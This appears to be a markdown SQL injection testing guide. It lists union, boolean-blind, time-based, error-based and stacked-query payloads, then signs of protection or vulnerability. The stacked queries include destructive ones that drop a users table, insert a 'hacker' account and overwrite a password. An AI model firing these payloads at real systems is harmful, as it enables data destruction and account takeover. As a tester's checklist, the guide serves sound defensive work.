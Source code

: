 ### **Union-Based Injection:**
```sql
' UNION SELECT 1,2,3--
' UNION SELECT NULL,NULL,NULL--
' UNION ALL SELECT 1,2,3--
```

### **Boolean-Based Blind Injection:**
```sql
' AND 1=1--
' AND 1=2--
' AND (SELECT COUNT(*) FROM users)>0--
```

### **Time-Based Blind Injection:**
```sql
'; WAITFOR DELAY '00:00:05'--
' AND (SELECT SLEEP(5))--
'; SELECT SLEEP(5)--
```

### **Error-Based Injection:**
```sql
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e))--
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

### **Stacked Queries (Most Dangerous):**
```sql
'; DROP TABLE users--
'; INSERT INTO users VALUES(1,'hacker','hacker@evil.com')--
'; UPDATE users SET password='hacked' WHERE id=1--
```

## 🔍 **What to Look For**

### **✅ Good Signs (Protection Working):**
- **422 Validation Error** - Input validation blocked the payload
- **400 Bad Request** - Server rejected malformed input
- **No SQL error messages** in response
- **Normal application behavior** with sanitized input
- **Query logs show parameter binding** (?)

### **🚨 Bad Signs (Potential Vulnerability):**
- **SQL error messages** in response:
  - `mysql_fetch_array`
  - `Warning: mysql_`
  - `SQL syntax error`
  - `SQLSTATE`
  - `ORA-` (Oracle errors)
- **Unexpected data** in response
- **Different response times** (time-based injection)
- **Application crashes** or 500 errors
- **Successful login** with SQL injection payload
